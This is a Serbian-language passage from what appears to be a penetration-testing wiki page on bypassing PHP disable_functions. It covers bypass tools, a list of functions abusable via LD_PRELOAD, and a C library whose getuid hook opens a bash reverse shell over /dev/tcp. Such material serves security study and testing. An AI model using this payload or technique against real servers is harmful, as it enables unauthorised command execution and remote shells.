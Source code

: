 ### Automatsko otkrivanje zaobilaženja

Možete koristiti alat [https://github.com/teambi0s/dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser) i on će vam pokazati koju funkciju (ako postoji) možete koristiti za **zaobilaženje** **`disable_functions`**.

### Zaobilaženje korišćenjem drugih sistemskih funkcija

Vratite se na početak ove stranice i **proverite da li je neka od funkcija za izvršavanje naredbi onemogućena i dostupna u okruženju**. Ako pronađete barem jednu od njih, moći ćete je koristiti za izvršavanje proizvoljnih sistemskih naredbi.

### LD\_PRELOAD zaobilaženje

Dobro je poznato da neke funkcije u PHP-u poput `mail()` će **izvršavati binarne datoteke unutar sistema**. Stoga, možete ih zloupotrebiti koristeći promenljivu okruženja `LD_PRELOAD` da bi se učitao proizvoljni biblioteka koja može izvršiti bilo šta.

#### Funkcije koje se mogu koristiti za zaobilaženje disable\_functions sa LD\_PRELOAD

* **`mail`**
* **`mb_send_mail`**: Efektivno kada je instaliran modul `php-mbstring`.
* **`imap_mail`**: Radi ako je prisutan modul `php-imap`.
* **`libvirt_connect`**: Zahteva modul `php-libvirt-php`.
* **`gnupg_init`**: Može se koristiti sa instaliranim modulom `php-gnupg`.
* **`new imagick()`**: Ova klasa može biti zloupotrebljena za zaobilaženje restrikcija. Detaljne tehnike eksploatacije mogu se pronaći u sveobuhvatnom [**izveštaju ovde**](https://blog.bi0s.in/2019/10/23/Web/BSidesDelhi19-evalme/).

Možete [**ovde pronaći**](https://github.com/tarunkant/fuzzphunc/blob/master/lazyFuzzer.py) skriptu za ispitivanje koja je korišćena za pronalaženje ovih funkcija.

Ovde je biblioteka koju možete kompajlirati da biste zloupotrebili promenljivu okruženja `LD_PRELOAD`:

```php
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>

uid_t getuid(void){
unsetenv("LD_PRELOAD");
system("bash -c \"sh -i >& /dev/tcp/127.0.0.1/1234 0>&1\"");
return 1;
}
```

#### Bypass korišćenjem Chankro-a

Da biste iskoristili ovu konfiguraciju, možete koristiti [**Chankro**](https://github.com/TarlogicSecurity/Chankro). Ovo je alat koji će **generisati PHP eksploit** koji trebate otpremiti na ranjivi server i izvršiti ga (pristupiti mu putem veba).\
**Chankro** će upisati unutar diska žrtve **biblioteku i obrnutu ljusku** koju želite izvršiti i koristiće trik\*\*`LD_PRELOAD` + PHP `mail()`\*\* funkciju da izvrši obrnutu ljusku.

